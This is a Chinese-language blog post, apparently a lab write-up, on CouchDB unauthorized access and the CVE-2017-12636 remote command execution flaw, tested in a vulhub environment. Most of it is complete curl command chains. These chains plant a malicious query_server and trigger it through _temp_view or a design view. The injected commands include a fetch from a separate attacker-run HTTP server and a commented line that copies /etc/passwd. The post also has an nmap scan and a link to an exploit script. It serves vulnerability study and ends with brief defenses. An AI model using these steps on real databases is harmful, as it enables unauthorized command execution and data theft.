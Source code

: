 # CouchDB未授权访问&命令执行


#### 漏洞简介以及危害
Apache CouchDB是一个开源数据库,专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式,JavaScript作为查询语言,MapReduce和HTTP作为API的NoSQL数据库。
应用广广泛,如BBC用在其动态内容展示平台,Credit Suisse用在其内部的商品部⻔的市场框架,Meebo,用在其社交平台(web和应用程序),默认会在`5984端口`开放Restful的API接口口,如果使用
SSL的话就会监听在`6984端口`,用于数据库的管理功能。其HTTP Server默认开启时没有进行行行验证,而且绑定在0.0.0.0,所有用户均可通过API访问导致未授权访问。
在官方方配置文文档中对HTTP Server的配置有WWW-Authenticate:Set this option to trigger
basic-auth popup on unauthorized requests,但是很多用户都没有这么配置,导致漏洞产生。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

影响版本：小于 1.7.0 以及 小于 2.1.1


#### 漏洞环境
vulnhub

#### 漏洞利用
CVE-2017-12636是需要登录用户方可触发，如果不知道目标管理员密码，可以利CVE-2017-12635[CVE-017-12635](https://blog.csdn.net/JiangBuLiu/article/details/94027581)先【增加一个管理员用户】，如果无须帐号密码，就可通过未授权访问进行命令执行
同样，记得在Burp的拦截端口添加一个5984


进入环境，并启动
```bash
cd couchdb/CVE-2017-12636/
docker-compose up -d
```


###### 未授权访问测试
```bash
curl http://192.168.0.100:5984
curl http://192.168.0.100:5984/_config
```

<img src="https://image.geoer.cn/CouchDB%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE1.png"></img>

###### 任意命令执行漏洞

```bash
# 本机python运行http服务(可以不运行这个步骤，这里只是做curl测试用的)
python -m SimpleHTTPServer 8888
```

1.6.0 下

```bash
#依次执行如下命令
curl -X PUT 'http://192.168.0.100:5984/_config/query_servers/cmd' -d '"curl http://192.168.0.105:8888/test.php"' # 这里可以执行任意命令
#curl -X PUT 'http://192.168.0.100:5984/_config/query_servers/cmd' -d '" cat /etc/passwd >> tmp/ext_passwd"' 
curl -X PUT 'http://192.168.0.100:5984/vultest'    # 添加一个Database和Document
curl -X PUT 'http://192.168.0.100:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://192.168.0.100:5984/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'      # 在这个Database里查询，将language设置为cmd，这里就会用到我第一步里添加的名为cmd的query_servers，最后触发命令执行
```

2.1.0 下
```bash
# 2.1.0中修改了1.6.0用到的两个API
# Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。我们带上账号密码访问/_membership即可
curl http://<your-ip>:5984/_membership

# 利用(跟1.6.0类似)
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/CVE-2017-12636_is_success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'    #先增加一个Database和一个Document
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
#Couchdb 2.x删除了_temp_view，所以我们为了触发query_servers中定义的命令，需要添加一个_view
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
#增加_view的同时即触发了query_servers中的命令。
```

<img src="https://image.geoer.cn/CouchDB%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE2.png"></img>

exp地址

```
https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/exp.py
```

**nmap扫描**

```bash
nmap -p 5984 --script "couchdb-stats.nse" <target_ip>
```


#### 防御手段
- 绑定指定ip
- 设置访问密


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/couchdb%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/  

